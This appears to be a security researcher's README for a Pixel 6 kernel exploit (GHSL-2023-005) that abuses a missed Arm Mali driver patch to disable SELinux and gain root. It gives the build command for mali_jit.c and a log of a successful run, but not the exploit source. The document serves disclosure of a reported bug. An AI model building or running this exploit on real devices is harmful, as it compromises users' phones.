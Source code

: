 ## Exploit for GHSL-2023-005

The write up can be found [here](https://github.blog/2023-04-06-pwning-pixel-6-with-a-leftover-patch). A security patch from the upstream Arm Mali driver somehow got missed out in the update for the Pixel phones and I reported it to Google in January 2023. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 6 for devices running the January 2023 patch. For reference, I used the following command to compile it with clang in ndk-21:

```
android-ndk-r21d-linux-x86_64/android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android30-clang -DSHELL mali_jit.c -o mali_jit
```

The exploit should be run a couple of minutes after boot and should be fairly reliable. If failed, it can be rerun and should succeed within a few times.
If successful, it should disable SELinux and gain root.

```
oriole:/ $ /data/local/tmp/mali_jit                                          
fingerprint: google/oriole/oriole:13/TQ1A.230105.002/9325679:user/release-keys
region freed
found region 16115 at 7000200000
overwrite addr : 7ae9700710 710
overwrite addr : 7ae9500710 710
overwrite addr : 7828500710 710
overwrite addr : 7828300710 710
overwrite addr : 7828500710 710
overwrite addr : 7828300710 710
overwrite addr : 7828100710 710
overwrite addr : 7828300710 710
overwrite addr : 7828100710 710
overwrite addr : 7ae9700fd4 fd4
overwrite addr : 7ae9500fd4 fd4
overwrite addr : 7828500fd4 fd4
overwrite addr : 7828300fd4 fd4
overwrite addr : 7828500fd4 fd4
overwrite addr : 7828300fd4 fd4
overwrite addr : 7828100fd4 fd4
overwrite addr : 7828300fd4 fd4
overwrite addr : 7828100fd4 fd4
result 50
oriole:/ # 
```
